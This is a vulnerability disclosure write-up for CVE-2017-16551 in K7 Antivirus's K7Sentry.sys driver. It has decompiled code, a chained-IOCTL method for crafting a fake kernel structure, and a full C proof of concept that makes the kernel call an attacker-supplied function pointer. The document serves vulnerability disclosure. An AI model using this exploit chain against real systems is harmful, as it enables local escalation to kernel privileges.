

# CVE-2017-16551
# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# Details
## Vulnerability
The *K7Sentry.sys* exposes a significant amount of functionality through its DispatchHandler interface. Some of this calls through to common code which performs different actions depending on where it is called from. This appears to be to reduce code duplication. However, it is possible to confuse the routines and get consistent control of the instruction pointer.

This issue looks at the ControlCode 0x9500286F which generally is a wrapper around a call to *ZwSetInformationFile* with *FileEndOfFileInformation* (or similar), so changing the current end-of-file information.

The call stack to the issue is shown below, and all the majority of the data is provided by the user with some minor constraints.

* sub_18FC0 (DispatchGeneral)
* sub_165E0 (IoControl_9500286f_SetEndOfFile)
* sub_10B50 (SetEndOfFileWrapper)

What is interesting is that in the *SetEndOfFileWrapper* routine, there is an option that calls different APIs based of a single byte value. So either calls the ZwSetInformationFile or FltSetInformationFile or calls a function pointer (*pfnSomething* in the snippet below).


```C++
signed int __usercall SetEndofFileWrapper@<eax>(unk3 *pUnk3@<eax>, int a2@<ecx>)
{
    signed int result; // eax
    int v3; // ecx
    char unk3_field_1; // dl
    unk9 *pUnk9; // edx
    void (__cdecl *pfnSomething)(HANDLE, int); // edx
    LARGE_INTEGER FileInformation; // [esp+0h] [ebp-14h]
    struct _IO_STATUS_BLOCK IoStatusBlock; // [esp+8h] [ebp-Ch]

    if ( pUnk3->field_0_mustBeK != 0x4B )
        return 0;
    v3 = pUnk3->field_E + a2;
    unk3_field_1 = pUnk3->field_1;
    pUnk3->field_12 = v3;
    FileInformation.QuadPart = (unsigned int)v3;
    switch ( unk3_field_1 )
    {
        case 0:
            if ( !pUnk3->pUnk9 )
            {
                ZwSetInformationFile(pUnk3->hFile, &IoStatusBlock, &FileInformation, 8u, FileEndOfFileInformation);
                return 1;
            }
            return 0;
        case 1:
        case 2:
            FltSetInformationFile(*((_DWORD *)pUnk3->hFile + 3), *((_DWORD *)pUnk3->hFile + 4), &FileInformation, 8, 20);
            result = 1;
            break;
        case -1:
            pUnk9 = pUnk3->pUnk9;
            if ( !pUnk9 )
                return 0;
            pfnSomething = pUnk9->pfnSomething;
            if ( !pfnSomething )
                return 0;
            // VULN: We can provide this if we jump through a few hoops.
            pfnSomething(pUnk3->hFile, v3);
            result = 1;
            break;
        default:
            return 0;
    }
    return result;
}
```

Look at *pfnSomething*, it comes from unk9 (pUnk9) structure, which itself comes from an unk3 structure and unk3 (pUnk3) is passed in.

*Note: *unk* is a term I use for *unknown* structures.*

Stepping up a level looking at the caller to *SetEndOfFileWrapper* it is clear that pUnk3 is derived from pInputBuffer->pUnk3 which comes directly from the caller:

```C++
int __usercall IoControl_9500286F_SetEndOfFile@<eax>(IoControlBuffer *pIoControlBuffer@<esi>)
{
    unk2 *pInputBuffer; // ecx
    unk3 *pUnk3; // eax

    if ( g_ClientPort_dword_4EF78 )
    {
        pInputBuffer = (unk2 *)pIoControlBuffer->pInputBuffer;
        if ( pInputBuffer )
        {
            if ( pIoControlBuffer->pOutputBuffer
                && pIoControlBuffer->dwInputBufferLength == 16
                && pIoControlBuffer->dwOutputBufferLength >= 4u )
            {
                // pUnk3 actually comes out of the pInputBuffer which is something that I can control.
                pUnk3 = pInputBuffer->pUnk3;
                if ( pInputBuffer->pUnk3 < (unk3 *)MmHighestUserAddress )
                {
                    *pIoControlBuffer->pdwIoStatusInformation = 0;
                    return 0;
                }
                *pIoControlBuffer->pdwIoStatusInformation = 0;
                // pUnk3 is passed in here and comes from pInputBuffer->pUnk3
                if ( SetEndofFileWrapper(pUnk3, pInputBuffer->field_8) )
                {
                    *pIoControlBuffer->pdwIoStatusInformation = 4;
                    *(_DWORD *)pIoControlBuffer->pOutputBuffer = 1;
                }
            }
        }
    }
    return 0;
}
```

Going up one more level into the top level DispatchGeneral routine, we see that pInputBuffer is the Type3InputBuffer pointer passed in as this is a METHOD_NEITHER control code. And this pointer **must** be a user mode address. However from this we can create a chain of buffers that means we ensure pfnSomething points to a value under our control.

Therefore if a few constraints can be met, it is possible to get control of the instruction pointer. For this, we need:
* From IoControl_9500286F_SetEndOfFile
  * g_CLientPort... must not be zero
  * Input size must be 16 bytes
  * Output size must be at least 4 bytes
* In the input buffer, the pointer to unk3 (InputBuffer+0x00) **must be a Kernel Mode address**
* From inspecting SetEndofFileWrapper (see snippet below for reasoning), in unk3..
  * BYTE field_0:   +0x00: 0x4B ('K')
  * BYTE field_1:   +0x01: 0xFF
  * unk9* field_6:  +0x06: User Mode / Kernel Mode 
* And in unk9 we need to set:
  * PVOID field_c:  +0x0C: pfnSomething - this is what will be run. 


```C++
// Recap of the function we want to hit, 

signed int __usercall SetEndofFileWrapper@<eax>(unk3 *pUnk3@<eax>, int a2@<ecx>)
{
    // Locals
    if ( pUnk3->field_0_mustBeK != 0x4B )
        return 0;
    v3 = pUnk3->field_E + a2;
    unk3_field_1 = pUnk3->field_1;
    switch ( unk3_field_1 )
    {
        // ...
        case -1:
            pUnk9 = pUnk3->pUnk9;
            if ( !pUnk9 )
                return 0;
            pfnSomething = pUnk9->pfnSomething;
            if ( !pfnSomething )
                return 0;
            // VULN: We can provide this if we jump through a few hoops.
            pfnSomething(pUnk3->hFile, v3);
            result = 1;
            break;
 
        // ...
    }
    return result;
}
```

Visually we need to form this layout.


The only complication is that the pointer to unk3 must be an address in Kernel Mode. 

## Manipulating Kernel Memory
In order to correctly form Unk3 in memory, we need to modify 6 specific bytes somewhere in memory. Using a combination of two other control codes, and some fortunate memory layout, it is possible to manipulate memory in such a way to achieve this. The goal was to set the unk3 pointer to somewhere in global memory in the K7Sentry.sys were we can manipulate enough fo the values.

The first part to this was the control code 0x95002580 which would copy up to 0x8000 bytes in to a buffer that has previously been allocated. While we do not know where the buffer is, we do know where the pointer to the buffer is relative to the start of the driver.

```C++
signed int __usercall Dispatch_0x95002580_MoveDataIntoGlobal@<eax>(IoControlBuffer *pControlCode@<esi>)
{
    // ... Locals ...
    if ( *(_DWORD *)pInput )
    {
        if ( dwInputLength <= 0x8000 )
        {
            memmove(g_buffer_0x8000_4EFE8, pInput, pControlCode->dwInputBufferLength);
            // ...
        }

        // ...
    }
    
    // ...
    return 0;
}
```

As we have some control a pointer here, although don't know the value of this, we align this to the pUnk9 field of the unk3 structure. Therefore when we fill in the buffer, we simply copy the bytes required for the unk9 structure to make the chain valid.


The next part we have to achieve is to ensure we have a 'K' and a -1 in the right locations. If we assume the above control code is correct, we need 'K' at 0x4EFE2, and -1 at 0x4EFE3.


Looking at the global memory this would mean modifying the value at 0x4EFE0, which is modifiable by a control code  0x950025D4 without any complexity:

```C++
// ...
case 0x950025D4:
    if ( stIoControlBuffer.dwInputBufferLength != 4 )
        goto LABEL_39;
    pInputBuffer_1 = *pInputBuffer;
    dword_4EFE0 = pInputBuffer_1;
```

With this, we can modify enough of kernel memory to create what we need for unk3, however now we need to identify where unk3 is in the address space. As it is in global memory of the driver, we know the Relative Virtual Address (RVA) of the where we have crafted our unk3, relative to the beginning of the driver. We now simply ask Windows where the driver is loaded to turn it into a Virtual Address.

*Note: This is the only reason why this starts at MEDIUM*

## Putting it all Together
When combining this all together, the following steps need to occur:
* Call 0x95002580, passing in our unk9 structure which has the function pointer at 0x0C. This will fill in the global memory
* Call 0x950025D4, passing in 0xFF4B0000 which will set the first 2 bytes we need in unk3
* Find out the base address of the driver so we can get the VA for the global memory we have just modified
* Call 0x9500286f with the input buffer containing a pointer to the VA of our unk3 buffer (in kernel memory).

The result is that pfnFunction will be called from the kernel.

# Supervisor Mode Execution Protection (SMEP)
The description above of the vulnerability and the PoC below will be stopped by SMEP. However when it was developed a non-SMEP O/S was used for simplicity.

However, as the exposed interface provides a number of ways to manipulate kernel memory, it wouldn't have been too complicated to defeat SMEP. For the purpose of the PoC, I was sending it off to the development team and didn't feel it was necessary to demonstrate the vulnerability to them. 

# PoC Code
This proof of concept code will cause a bugcheck with the following.




```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// SetInformationFile
	if (!DeviceIoControl(hFile, 0x9500286F, data, 16, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```